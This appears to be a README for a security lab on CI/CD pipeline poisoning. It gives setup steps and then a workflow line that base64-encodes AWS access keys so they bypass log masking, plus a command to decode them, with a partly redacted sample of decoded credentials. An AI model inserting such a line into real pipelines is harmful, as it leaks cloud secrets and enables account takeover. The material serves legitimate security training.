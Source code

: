 # CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Execute Direct-PPE 

1.  Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build`

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

1. Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example
```
echo "YWNjZXNza2V5OiBBS0xxxxXSEpCQzRYTlNKRSAgc2VjcmV0a2V5OiBBYmJYd1pxd2tMeExmZxxxxQUkhOdU1aR0lkd3d2QjcrRFBpCg==" | base64 -d
accesskey: AKIA2INxxxxx4XNSJE  secretkey: AbbXwZqwkLxLfgfSxxxxxGIdwwvB7+DPi
```
